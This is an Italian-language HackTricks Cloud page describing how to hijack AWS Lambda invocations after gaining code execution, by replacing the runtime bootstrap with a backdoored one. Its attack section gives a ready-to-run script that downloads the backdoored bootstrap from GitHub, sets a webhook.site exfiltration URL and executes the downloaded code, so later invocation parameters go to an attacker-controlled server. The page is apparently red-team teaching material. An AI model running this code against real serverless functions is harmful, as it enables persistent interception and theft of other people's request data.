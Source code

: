 # AWS - Rubare le Richieste Lambda

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Flusso Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** è un processo esterno al contenitore che **invia** **invocazioni** al processo **init**.
2. Il processo init ascolta sulla porta **9001** esponendo alcuni endpoint interessanti:
* **`/2018-06-01/runtime/invocation/next`** – ottieni il prossimo evento di invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – restituisci la risposta del gestore per l'invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – restituisci un errore di esecuzione
3. **bootstrap.py** ha un ciclo che ottiene invocazioni dal processo init e chiama il codice dell'utente per gestirle (**`/next`**).
4. Infine, **bootstrap.py** invia a init la **risposta**

Nota che bootstrap carica il codice dell'utente come un modulo, quindi qualsiasi esecuzione di codice eseguita dal codice dell'utente avviene effettivamente in questo processo.

## Rubare le Richieste Lambda

L'obiettivo di questo attacco è far eseguire al codice dell'utente un processo **`bootstrap.py`** malevolo all'interno del processo **`bootstrap.py`** che gestisce la richiesta vulnerabile. In questo modo, il processo **bootstrap malevolo** inizierà a **comunicare con il processo init** per gestire le richieste mentre il bootstrap **legittimo** è **intrappolato** a eseguire quello malevolo, quindi non chiederà richieste al processo init.

Questo è un compito semplice da raggiungere poiché il codice dell'utente viene eseguito dal legittimo processo **`bootstrap.py`**. Quindi l'attaccante potrebbe:

* **Inviare un risultato falso dell'attuale invocazione al processo init**, così init pensa che il processo bootstrap stia aspettando ulteriori invocazioni.
* Deve essere inviata una richiesta a **`/${invoke-id}/response`**
* L'invoke-id può essere ottenuto dallo stack del legittimo processo **`bootstrap.py`** utilizzando il modulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (come [proposto qui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) o semplicemente richiedendolo di nuovo a **`/2018-06-01/runtime/invocation/next`** (come [proposto qui](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Eseguire un **`boostrap.py`** malevolo che gestirà le prossime invocazioni
* Per motivi di furtività, è possibile inviare i parametri delle invocazioni lambda a un C2 controllato dall'attaccante e poi gestire le richieste come al solito.
* Per questo attacco, è sufficiente ottenere il codice originale di **`bootstrap.py`** dal sistema o da [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), aggiungere il codice malevolo ed eseguirlo dall'attuale invocazione lambda.

### Passi dell'Attacco

1. Trova una vulnerabilità **RCE**.
2. Genera un **bootstrap** **malevolo** (es. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Esegui** il bootstrap malevolo.

Puoi facilmente eseguire queste azioni eseguendo:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Per ulteriori informazioni controlla [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Riferimenti

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
